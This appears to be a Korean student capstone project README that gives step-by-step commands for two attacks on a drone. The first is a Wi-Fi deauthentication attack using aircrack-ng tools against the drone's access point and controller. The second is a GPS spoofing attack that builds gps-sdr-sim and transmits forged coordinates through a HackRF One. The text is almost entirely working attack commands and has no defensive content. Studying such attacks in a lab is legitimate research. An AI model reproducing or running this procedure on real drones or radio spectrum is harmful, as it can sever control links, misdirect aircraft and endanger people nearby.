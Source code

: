 캡스톤디자인I 코드
=================


1.Deauth Attack
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

> 불필요한 프로세스를 종료하고, 공격에 이용할 무선랜의 이름을 확인한다.
>
> ```bash
> airmon-ng check kill
> iwconfig
> ```


> 무선랜을 모니터 모드로 전환하고, 드론 AP의 패킷을 수집한다.
>
> ```bash
> airmon-ng start [무선랜 이름]
> airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
> ```


> 수집한 패킷에서 제어 기기의 MAC주소를 확인하고, 인증해제 공격을 실행한다.
>
> ```bash
> iwconfig [무선랜 이름] channel [드론 AP의 채널]
> aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
> ```



2.GPS Spoofing
---------------

HackRF-One을 연결한 Linux 환경에서 행한다.

> GPS-SDR-SIM Github를 클론 설치한다.
>
> ```bash
> git clone https://github.com/osqzss/gps-sdr-sim.git
> ```


> 설치된 디렉토리로 이동해 Spoofing할 위도/경도를 지정한 gps-sdr-sim 파일을 생성한다.
>
> ```bash
> cd ./gps-sdr-sim
> gcc gpssim.c -lm -O3 -o gps-sdr-sim
> ```


> 나사에서 최신 천체 파일을 다운로드하고, 압축해제한다.
>
> ```bash
> cp /home/user/[파일명.gz] ./gps-sdr-sim
> gzip -d [파일명.gz]
> ```


> 압축해제된 천체 파일로 위도, 경도를 지정한 gpssim.bin 파일을 생성한다.
>
> ```bash
> ./gps-sdr-sim -e [파일명] -l [위도],[경도] -b 8
> ```


> HackRF_One으로 변조된 좌표의 GPS 신호를 전송한다.
>
> ```bash
> hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 40
> ```


(현재 연결중인 상태) Virtual Machine → USB & Bluetooth → Connect HackRF One 하면 된다.


[hackrf](https://github.com/greatscottgadgets/hackrf.git)
[gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)

